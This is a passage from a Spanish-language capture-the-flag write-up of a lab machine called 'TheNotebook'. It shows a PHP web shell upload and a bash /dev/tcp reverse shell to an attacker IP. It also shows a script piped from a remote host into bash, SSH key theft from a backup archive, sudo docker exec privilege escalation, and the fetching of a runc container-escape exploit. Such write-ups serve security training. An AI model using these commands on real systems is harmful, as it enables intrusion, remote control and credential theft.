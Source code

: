 Si subimos en uploads un shell.php con este contenido... ```<?php system($_REQUEST['cmd']); ?>```
Nos dan la ruta c214a2fb80bab315fc328a5eff2892b5.php (hace un md5) -> ```md5sum shell.php c214a2fb80bab315fc328a5eff2892b5  shell.php```

Hay un botón de "view" para acceder ```http://10.10.10.230/c214a2fb80bab315fc328a5eff2892b5.php```
```console
└─$ curl -s http://10.10.10.230/c214a2fb80bab315fc328a5eff2892b5.php?cmd=whoami
www-data
```

Si no hay reglas de firewall, tendríamos acceso al sistema.
```http://10.10.10.230/c214a2fb80bab315fc328a5eff2892b5.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.16/443 0>%261'```

Subimos nuestro [script](https://github.com/CUCUxii/Pentesting-tools/blob/main/lin_info_xii.sh) de reconocimiento
```console
www-data@thenotebook:/tmp$ curl -s http://10.10.14.16/lin_info_xii.sh | bash
...
	>  Backups
/var/backups/home.tar.gz

www-data@thenotebook:/var/backups$ cp ./home.tar.gz /tmp
www-data@thenotebook:/tmp$ tar -xf home.tar.gz
www-data@thenotebook:/tmp$ cd ./home/noah/.ssh
www-data@thenotebook:/tmp/home/noah/.ssh$ cat id_rsa  # La llave de noah
└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa noah@10.10.10.230
```

--------------------------
# Part 4: Docker breackout

Enumeramos otra vez el sistema y nos topamos con:
```console
  >  SUDO NO PASSWD (sudo -l)
(ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*

noah@thenotebook:/tmp$ sudo /usr/bin/docker exec -it webapp-dev01
Usage:  docker exec [OPTIONS] CONTAINER COMMAND [ARG...]. Run a command in a running container

noah@thenotebook:/tmp$ sudo /usr/bin/docker exec -it webapp-dev01 "whoami" # -> root
noah@thenotebook:/tmp$ sudo /usr/bin/docker exec -it webapp-dev01 bash 
root@0f4c2517af40:/opt/webapp#
```
Ya con eso estamos en el contenedor.
Este directorio tiene la web:
```console
root@0f4c2517af40:/opt/webapp# ls
__pycache__  admin  create_db.py  main.py  privKey.key	requirements.txt  static  templates  webapp.tar.gz
root@0f4c2517af40:/opt/webapp# cat create_db.py
(...)
User(username='admin', email='admin@thenotebook.local', uuid=admin_uuid, admin_cap=True, password="0d3ae6d144edfb313a9f0d32186d4836791cbfd5603b2d50cf0d9c948e50ce68"),
User(username='noah', email='noah@thenotebook.local', uuid=noah_uuid, password="e759791d08f3f3dc2338ae627684e3e8a438cd8f87a400cada132415f48e01a2")
(...)
```
Pero no las podemos romper.
Encuentro en google [esto](https://github.com/Frichetten/CVE-2019-5736-PoC) al poner ```docker 18.06.0-ce exploits github```
```console
noah@thenotebook:~$ docker --version
Docker version 18.06.0-ce, build 0ffa825

└─$ git clone https://github.com/Frichetten/CVE-2019-5736-PoC 
```